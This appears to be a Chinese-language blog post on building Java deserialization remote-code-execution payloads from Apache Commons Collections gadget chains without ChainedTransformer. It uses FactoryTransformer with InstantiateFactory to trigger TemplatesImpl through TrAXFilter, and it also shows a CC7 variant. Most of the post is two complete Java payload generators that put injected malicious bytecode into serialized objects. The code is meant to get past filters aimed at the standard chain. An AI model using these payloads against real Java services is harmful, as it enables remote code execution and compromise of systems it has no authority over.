

# 不用ChainedTransformer如何实现cc反序列化rce
今天有个朋友问了我这个问题，这里简单回答个这个问题
虽然网上现在的CC链子都有这个但是我们仔细理解就能绕过了
找一个Transformer，不受transform调用时输入的影响
这里随便举个例子使用org.apache.commons.collections.functors.FactoryTransformer

这里调用了`this.iFactory.create()`,查看Factory的实现类有一个`org.apache.commons.collections.functors.InstantiateFactory`
这个类在调用create的时候可以帮助我们实例化任意类
```java
public Object create() {
        if (this.iConstructor == null) {
            this.findConstructor();
        }

        try {
            return this.iConstructor.newInstance(this.iArgs);
        } catch (InstantiationException var2) {
            throw new FunctorException("InstantiateFactory: InstantiationException", var2);
        } catch (IllegalAccessException var3) {
            throw new FunctorException("InstantiateFactory: Constructor must be public", var3);
        } catch (InvocationTargetException var4) {
            throw new FunctorException("InstantiateFactory: Constructor threw an exception", var4);
        }
    }
```
还记得CC3么，使用TrAXFilter触发TemplatesImpl的例子(当然实际攻防环境下还可以使用其他类)，不过我们这里还是case by case
这里我随便用一个CC做改造，就以CC6为例吧
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


public class CommonsCollections6Y4 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public byte[] getPayload() throws Exception {


        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(evily4.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        InstantiateFactory instantiateFactory = new InstantiateFactory(String.class);
        FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, factoryTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "y4");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("y4");

        setFieldValue(instantiateFactory,"iClassToInstantiate",TrAXFilter.class);
        setFieldValue(instantiateFactory,"iParamTypes",new Class[]{Templates.class});
        setFieldValue(instantiateFactory,"iArgs",new Object[]{obj});


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();


        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception{
        
    }
}

```

或者配合cc7的变体,这样transform的参数就可以是我们任意控制的了，具体为什么就不讲了，建议复习cc7
```java

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7 {
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception {
        Field field=obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass = classPool.get(evil.EvilTemplatesImpl.class.getName());
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{ctClass.toBytecode()});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Constructor constructor = Class.forName("org.apache.commons.collections.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        Map hashMap1 = new HashMap();
        Map hashMap2 = new HashMap();
        Map lazyMap1 = LazyMap.decorate(hashMap1, transformer);
        lazyMap1.put("0", "yy");
        Map lazyMap2 = LazyMap.decorate(hashMap2, transformer);
        lazyMap2.put("yy", templates);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 1);

        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashMap1);
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node, templates);


        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos= new ObjectOutputStream(baos);
        oos.writeObject(hashtable);
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        ByteArrayInputStream bais=new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}


```
